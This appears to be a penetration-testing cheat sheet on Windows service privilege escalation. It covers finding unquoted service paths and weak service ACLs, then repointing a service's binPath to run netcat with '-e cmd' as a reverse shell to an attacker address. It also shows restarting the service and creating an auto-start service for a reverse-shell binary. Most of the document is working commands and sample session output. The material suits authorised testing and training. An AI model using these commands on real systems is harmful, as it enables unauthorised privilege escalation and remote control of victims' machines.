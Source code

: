 ```yaml
---
title: "Windows Services"
date: 2024-7-13
tags: ["Server Operators", "Active Directory", "Windows", "Privilege Escalation", "Services", "Reverse Shell", "Unquoted Service Path"]
---
```


### Check unquoted service path

```console
cmd.exe /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """'
```

```console {class="sample-code"}
PS C:\Users\user1> cmd.exe /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """'
WC Assistant    WCAssistantService    C:\Program Files (x86)\Lavasoft\Web Companion\Application\Lavasoft.WCAssistant.WinService.exe    Auto 
```

### Check service ACLs

```console
. .\Get-ServiceAcl
```

```console
"<SERVICE>" | Get-ServiceAcl | Select -ExpandProperty Access
```

```console {class="sample-code"}
PS > "SomeService" | Get-ServiceAcl | select -ExpandProperty Access

---[SNIP]---

ServiceRights     : QueryConfig, ChangeConfig, QueryStatus, EnumerateDependents, Start, Stop, Interrogate, ReadControl
AccessControlType : AccessAllowed
IdentityReference : COMPUTER-MS01\user
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

---[SNIP]---
```

<small>*Ref: [Get-ServiceAcl.ps1](https://raw.githubusercontent.com/Sambal0x/tools/refs/heads/master/Get-ServiceAcl.ps1)*</small>

### Abuse #1: Change service path

#### 1. Change service path

```console
# Assume nc.exe is uploaded
sc.exe config <SERVICE> binPath= "C:\ProgramData\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>"
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe config VSS binpath="C:\windows\tasks\nc.exe -e cmd 10.10.14.44 443"
[SC] ChangeServiceConfig SUCCESS
```

#### 2. Restart service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.
```

```console
# Start service
sc.exe start <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

### Additional: Create service

```console
# Create a service
sc.exe create <NEW_SERVICE> binpath= C:\ProgramData\rev.exe start= auto
```

<small>*Note: there is a space after named arguments*</small>